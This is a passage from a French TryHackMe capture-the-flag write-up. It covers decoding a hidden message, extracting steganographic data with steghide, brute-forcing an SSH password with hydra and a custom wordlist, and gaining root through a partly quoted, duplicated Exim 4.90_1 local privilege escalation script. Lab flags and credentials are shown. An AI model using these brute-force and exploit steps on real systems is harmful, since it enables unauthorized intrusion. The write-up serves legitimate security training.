111111111100100010101011101011111110101111111111011011011011000001101001001011111111111111001010010111100101000000000000101001101111001010010010111111110010100000000000000000000000000000000000000010101111110010101100101000000000000000000000101001101100101001001011111111111111111111001010000000000000000000000000001010111001010000000000000000000000000000000000000000000001010011011001010010010111111111111111111111001010000000000000000000000000000000001010111111001010011011001010010111111111111100101001000000000000101001111110010100110010100100100000000000000000000010101110010100010100000000000000010100000000010101111100101001111001010011001010010000001010010100101011100101001101100101001011100101001010010100110110010101111111111111111111111111111111110010100100100000000000010100010100111110010100000000000000000000000010100111111111111111110010100101111001010000000000000001010
```

On lit le fichier I-got-a-secret.txt, et dedant il y un message sous forme binaire.  

   

Le langage binaire et en faite du spoon un dérivé du brainfuck.   
On décode le message et on trouve le message suivant : The magic word you are looking for is ApplePie   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc adventure.thm 31337
Hello Princess Bubblegum. What is the magic word?
ApplePie
The password of peppermint-butler is: That Black Magic
```

On met le mot ApplePie comme mot magique et on trouve le mot de passe de peppermint-butler qui est : That Black Magic  

```bash
marceline@at:~$ su peppermint-butler
Password: 
peppermint-butler@at:/home/marceline$ 
```

On se connecte sur le compte de peppermint-butler avec le mot de passe That Black Magic  

```bash
peppermint-butler@at:/home/marceline$ cd ~
peppermint-butler@at:~$ ls
butler-1.jpg  flag3
peppermint-butler@at:~$ cat flag3
tryhackme{N0Bl4ckM4g1cH3r3}
```

Dans le répertoire utilisateur on trouve un fichier flag3, on le lit et on trouve le flag.   
Le flag est : tryhackme{N0Bl4ckM4g1cH3r3}   

**Content of flag4**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp peppermint-butler@adventure.thm:butler-1.jpg ./
peppermint-butler@adventure.thm's password: 
butler-1.jpg          
```
   

On copie l'image butler-1.jpg pour la regarder.  
On trouve rien dans l'image.  

```bash
peppermint-butler@at:~$ find / -type f -user 'peppermint-butler' -ls 2>/dev/null
  1444636      4 -rw-r-----   1 peppermint-butler peppermint-butler      300 sep 21  2019 /usr/share/xml/steg.txt
   789316      4 -rw-r-----   1 peppermint-butler peppermint-butler      299 sep 21  2019 /etc/php/zip.txt
...

peppermint-butler@at:~$ cat /usr/share/xml/steg.txt
I need to keep my secrets safe.
There are people in this castle who can't be trusted.
Those banana guards are not the smartest of guards.
And that Marceline is a friend of princess Bubblegum,
but I don't trust her.

So I need to keep this safe.

The password of my secret file is 'ToKeepASecretSafe'

peppermint-butler@at:~$ cat /etc/php/zip.txt
I need to keep my secrets safe.
There are people in this castle who can't be trusted.
Those banana guards are not the smartest of guards.
And that Marceline is a friend of princess Bubblegum,
but I don't trust her.

So I need to keep this safe.

The password of my secret file is 'ThisIsReallySave'
```

On trouve deux fichiers importants qui appartient à pepermint-butler.  
Dans steg.txt on trouve un mot de passe qui est : ToKeepASecretSafe   
Dans zip.txt on trouve un mot de passe qui est : ThisIsReallySave  

```bash
steghide --extract -p ToKeepASecretSafe -sf butler-1.jpg
�criture des donn�es extraites dans "secrets.zip".

tim@kali:~/Bureau/tryhackme/write-up$ unzip secrets.zip 
Archive:  secrets.zip
[secrets.zip] secrets.txt password: 
 extracting: secrets.txt             

tim@kali:~/Bureau/tryhackme/write-up$ cat secrets.txt 
[0200 hours][upper stairs]
I was looking for my arch nemesis Peace Master, 
but instead I saw that cowering little puppet from the Ice King.....gunter.
What was he up to, I don't know.
But I saw him sneaking in the secret lab of Princess Bubblegum.
To be able to see what he was doing I used my spell 'the evil eye' and saw him.
He was hacking the secret laptop with something small like a duck of rubber.
I had to look closely, but I think I saw him type in something.
It was unclear, but it was something like 'The Ice King s????'.
The last 4 letters where a blur.

Should I tell princess Bubblegum or see how this all plays out?
I don't know....... 

```

Dans le fichier jpg que l'on avit télécharger on extrait un fichier zip avec le premier code.   
Dans le fichier zip on extrait un fichier qui est secrets.txt.   
Dans le fichier secrets.txt on trouve un nom d'utilisateur qui est gunter et le début d'un mot de passe qui est The Ice King s???? , il nous reste à deviner les 4 derniers lettres.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/wordlists/rockyou.txt | grep -e '^s....$' > words.txt
tim@kali:~/Bureau/tryhackme/write-up$ sed -i -e 's/^/The Ice King /' words.txt 
```

On fait un dictionnaire personnalisé avec les mots qui commence par s et qui font 5 lettres et en ajoutant le reste du mot de passe.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l gunter -P words.txt ssh://land-of-ooo.com -v
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-16 22:20:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11472 login tries (l:1/p:11472), ~717 tries per task
[DATA] attacking ssh://land-of-ooo.com:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://gunter@10.10.114.46:22
[INFO] Successful, password authentication is supported by ssh://10.10.114.46:22
[22][ssh] host: land-of-ooo.com   login: gunter   password: The Ice King sucks
[STATUS] attack finished for land-of-ooo.com (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

On brute force le mot de passe et on trouve le mot de passe qui est : The Ice King sucks.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh gunter@land-of-ooo.com
Warning: Permanently added the ECDSA host key for IP address '10.10.114.46' to the list of known hosts.
gunter@land-of-ooo.com's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

1 package can be updated.
0 updates are security updates.

Last login: Fri Sep 20 20:41:57 2019 from 192.168.245.129

gunter@at:~$ ls
flag4
gunter@at:~$ cat flag4 
tryhackme{P1ngu1nsRul3!}

```

On se connecte sur le compte SSH de gunter.  
On trouve le fichier flag4 et on le lit.   
Le flag est : tryhackme{P1ngu1nsRul3!} 

**Content of flag5**

```bash
gunter@at:~$ find / -perm /4000 2>/dev/null
/usr/sbin/pppd
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/arping
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/bin/ping
/bin/umount
/bin/su
/bin/fusermount
/bin/mount

gunter@at:~$ exim4 --version
Exim version 4.90_1 #4 built 14-Feb-2018 16:01:14
Copyright (c) University of Cambridge, 1995 - 2017
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2017
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() IPv6 GnuTLS move_frozen_messages DKIM DNSSEC Event OCSP PRDR SOCKS TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb dsearch nis nis0 passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
```

On regarde les programmes setuid.  
On remarque le programme exim4 version 4.90_1.   

exim4 version est vulnerable à l'exploit [exploit](https://www.exploit-db.com/exploits/46996)      

```bash
gunter@at:~$ id
uid=1007(gunter) gid=1007(gunter) groups=1007(gunter),1012(gcc)

gunter@at:~$ cat /etc/exim4/update-exim4.conf.conf 
# /etc/exim4/update-exim4.conf.conf
#
# Edit this file and /etc/mailname by hand and execute update-exim4.conf
# yourself or use 'dpkg-reconfigure exim4-config'
#
# Please note that this is _not_ a dpkg-conffile and that automatic changes
# to this file might happen. The code handling this will honor your local
# changes, so this is usually fine, but will break local schemes that mess
# around with multiple versions of the file.
#
# update-exim4.conf uses this file to determine variable values to generate
# exim configuration macros for the configuration file.
#
# Most settings found in here do have corresponding questions in the
# Debconf configuration, but not all of them.
#
# This is a Debian specific file

dc_eximconfig_configtype='local'
dc_other_hostnames='at'
dc_local_interfaces='127.0.0.1.60000'
dc_readhost=''
dc_relay_domains=''
dc_minimaldns='false'
dc_relay_nets=''
dc_smarthost=''
CFILEMODE='644'
dc_use_split_config='false'
dc_hide_mailname=''
dc_mailname_in_oh='true'
dc_localdelivery='mail_spool'

```

On voit deux conditions pour l'exploit fonctionne l'utilisateur apartient à gcc et on se connecte sur le port 60000 sur le localhost.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.sh 
#!/bin/bash
...
# payload delivery
function exploit()
{
	# connect to localhost:25
	exec 3<>/dev/tcp/localhost/60000

	# deliver the payload
	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3# payload delivery
function exploit()
{
	# connect to localhost:25
	exec 3<>/dev/tcp/localhost/60000

	# deliver the payload
	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
	read -u 3 && echo $REPLY
	echo "rcpt to:<$PAYLOAD>" >&3
	read -u 3 && echo $REPLY
	echo "data" >&3
	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}


	read -u 3 && echo $REPLY
	for i in {1..31}
	do
		echo "Received: $i" >&3
	done
	echo "." >&3
	read -u 3 && echo $REPLY
	echo "quit" >&3
	read -u 3 && echo $REPLY
}
...
```

On configure l'exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp ./exploit.sh gunter@land-of-ooo.com:/tmp
gunter@land-of-ooo.com's password: 
exploit.sh                            
...
gunter@at:/tmp$ chmod +x exploit.sh 

gunter@at:/tmp$ ./exploit.sh 

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Preparing setuid shell helper...
Problems compiling setuid shell helper, check your gcc.
Falling back to the /bin/sh method.
cp: cannot create regular file '/tmp/pwned': Permission denied

Delivering setuid payload...
220 at ESMTP Exim 4.90_1 Ubuntu Wed, 17 Nov 2021 10:59:58 +0100
250 at Hello localhost [127.0.0.1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1mnHjS-00018s-Vr
221 at closing connection

Waiting 5 seconds...
-rwxr-xr-x 1 root gunter 8504 nov 17 10:53 /tmp/pwned

# id
uid=0(root) gid=0(root) groups=0(root),1007(gunter),1012(gcc)
# ls /home   	
apple-guards  bubblegum  fern  finn  gunter  jake  marceline  peppermint-butler
# cd /home/bubblegum
# ls
Desktop  Documents  Downloads  Music  nmap  Pictures  Public  Secrets  secretServer.py	Templates  Videos
# cd Secrets
# ls
bmo.txt
# cat bmo.txt


░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░▄██████████████████████▄░░░░
░░░░█░░░░░░░░░░░░░░░░░░░░░░█░░░░
░░░░█░▄██████████████████▄░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░░░░█░█░░█░░░░░░░░░░░░█░░█░█░░░░
░░░░█░█░░░░░▄▄▄▄▄▄▄▄░░░░░█░█░░░░
░░░░█░█░░░░░▀▄░░░░▄▀░░░░░█░█░░░░
░░░░█░█░░░░░░░▀▀▀▀░░░░░░░█░█░░░░
░░░░█░█░░░░░░░░░░░░░░░░░░█░█░░░░
░█▌░█░▀██████████████████▀░█░▐█░
░█░░█░░░░░░░░░░░░░░░░░░░░░░█░░█░
░█░░█░████████████░░░░░██░░█░░█░
░█░░█░░░░░░░░░░░░░░░░░░░░░░█░░█░
░█░░█░░░░░░░░░░░░░░░▄░░░░░░█░░█░
░▀█▄█░░░▐█▌░░░░░░░▄███▄░██░█▄█▀░
░░░▀█░░█████░░░░░░░░░░░░░░░█▀░░░
░░░░█░░░▐█▌░░░░░░░░░▄██▄░░░█░░░░
░░░░█░░░░░░░░░░░░░░▐████▌░░█░░░░
░░░░█░▄▄▄░▄▄▄░░░░░░░▀██▀░░░█░░░░
░░░░█░░░░░░░░░░░░░░░░░░░░░░█░░░░
░░░░▀██████████████████████▀░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░░██░░░░░░░░░░░░██░░░░░░░░
░░░░░░░▐██░░░░░░░░░░░░██▌░░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░


Secret project number: 211243A
Name opbject: BMO
Rol object: Spy

In case of emergency use resetcode: tryhackme{Th1s1s4c0d3F0rBM0}


-------

Good job on getting this code!!!!
You solved all the puzzles and tried harder to the max.
If you liked this CTF, give a shout out to @n0w4n.

```

On rend l'exploit exécutable.   
On lance l'exploit et on obtient un shell root.  
Dans le répertoire /home/bubblegum/Secrets on trouve un fichier bmo.txt.  
On lit le fichier bmo.txt qui contient le flag qui est : tryhackme{Th1s1s4c0d3F0rBM0}   